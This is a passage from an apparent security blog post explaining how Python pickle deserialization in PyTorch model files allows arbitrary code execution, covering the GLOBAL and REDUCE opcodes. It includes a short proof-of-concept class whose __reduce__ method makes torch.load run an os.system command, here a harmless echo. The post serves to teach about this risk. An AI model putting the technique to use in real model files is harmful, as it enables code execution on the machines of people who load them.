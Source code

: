 In this example the script deserialized the `Players` object previously saved in `player1.pkl`. It then prints `player1`'s XP.

### So how can serialized data be malicious?
Well, it's not the serialized data itself; rather, it's the way the data is unserialized.
Pickle works on a dedicated virtual machine called the Pickle Machine (PM) and has its own opcodes.
There are a pair of "*exotic opcodes that* (can) *cause trouble*":
- GLOBAL
- REDUCE

The GLOBAL opcode is capable of importing modules or classes, while the REDUCE opcode is capable of calling objects (such as functions), executing them on the actual host.
This means that one can craft a Pickle artifact that uses the GLOBAL opcode to import the *os* module and later calls the `os.exec()` function to execute a command on the device.

## Crafting a malicious PyTorch model
We saw that pickle is used to serialize objects, that PyTorch, by default, uses pickle to save tensor data, and lastly, that there's an opcode capable of executing arbitrary code outside the Pickle Machine. 

Creating a malicious model is surprisingly simple. We just need to define a class with a __reduce__ method. This method is part of Python’s pickling protocol and tells pickle how to serialize and deserialize the object. By returning a callable— such as `os.system` or `subprocess.Popen`— along with its arguments, we can instruct the REDUCE opcode to execute arbitrary code during deserialization.

```python
import torch
import os

class Malcraft:
    def __reduce__(self):
        return os.system, ("echo this is a malicious model!",)

mal = Malcraft()
with open('malcraft.pth', 'wb') as f:
    torch.save(mal, f)
```

In the code sample above, I instantiated a `Malcraft` object and saved it to a pickle file. This time, instead of using `pickle.dump`, I used `torch.save`. This ensures the file includes PyTorch's "*magic number*"— a file header that PyTorch writes to identify files it creates and distinguish them from standard pickles.

> **Protip**: If you're not familiar with PyTorch and want to try the code above, install PyTorch with `pip install torch --index-url https://download.pytorch.org/whl/cpu`. This will skip the GPU optimization modules, so PyTorch will run on your device’s CPU instead.

Let's see what happens when the victim loads the model.

```python
import torch

model = torch.load('malcraft.pth')
```
